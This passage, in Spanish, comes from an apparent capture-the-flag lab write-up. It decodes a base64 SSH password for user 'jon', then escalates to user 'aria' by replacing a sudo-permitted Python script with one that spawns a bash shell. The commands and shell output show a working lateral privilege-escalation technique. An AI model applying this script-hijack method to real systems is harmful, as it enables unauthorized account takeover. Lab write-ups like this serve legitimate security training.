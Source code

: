 ``` bash
getting file \proteccion_del_reino of size 313 as proteccion_del_reino (3130000.0 KiloBytes/sec) (average inf KiloBytes/sec)

cat proteccion_del_reino 
Aria de ti depende que los caminantes blancos no consigan pasar el muro. 
Tienes que llevar a la reina Daenerys el mensaje, solo ella sabra interpretarlo. Se encuentra cifrado en un lenguaje antiguo y dificil de entender. 
Esta es mi contraseña, se encuentra cifrada en ese lenguaje y es -> aGlqb2RlbGFuaXN0ZXI=
```

**Usuario -> jon**
**Contra -> aGlqb2RlbGFuaXN0ZXI= (base64) ->hijodelanister**

Al probarlas en ssh, estamos dentro como jon

# ESCALADA PRIVILEGIOS

Vemos si el usuario tiene permisos SUDO:
   ```bash
jon@111d02563ea1:~$ sudo -l
Matching Defaults entries for jon on 111d02563ea1:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User jon may run the following commands on 111d02563ea1:
    (aria) NOPASSWD: /usr/bin/python3 /home/jon/.mensaje.py
```

Vemos **/home/jon/.mensaje.py** con permisos SUDO al ejecutarlo con python3. De primeras no podemos editarlo, pero como es nuestro directorio podemos eliminarlo y poner otro con el contenido que queramos:

   ```bash
jon@111d02563ea1:~$ cat .mensaje.py 
import os

os.execv("/bin/bash",["-p"])
jon@111d02563ea1:~$ ls -la
total 40
drwxr-xr-x 1 jon  jon  4096 Dec  9 12:41 .
drwxr-xr-x 1 root root 4096 Jul 16 20:25 ..
-rw------- 1 jon  jon   128 Jul 17 09:16 .bash_history
-rw-r--r-- 1 jon  jon   220 Mar 29  2024 .bash_logout
-rw-r--r-- 1 jon  jon  3526 Mar 29  2024 .bashrc
drwxr-xr-x 3 jon  jon  4096 Jul 17 09:15 .local
-rwxrwxrwx 1 jon  jon    40 Dec  9 12:41 .mensaje.py
-rw-r--r-- 1 jon  jon   807 Mar 29  2024 .profile
-rw-r--r-- 1 root root  103 Jul 16 20:26 paraJon
jon@111d02563ea1:~$ sudo -u aria /usr/bin/python3 /home/jon/.mensaje.py
aria@111d02563ea1:/home/jon$ 
```

YA ESTAMOS COMO ARIA
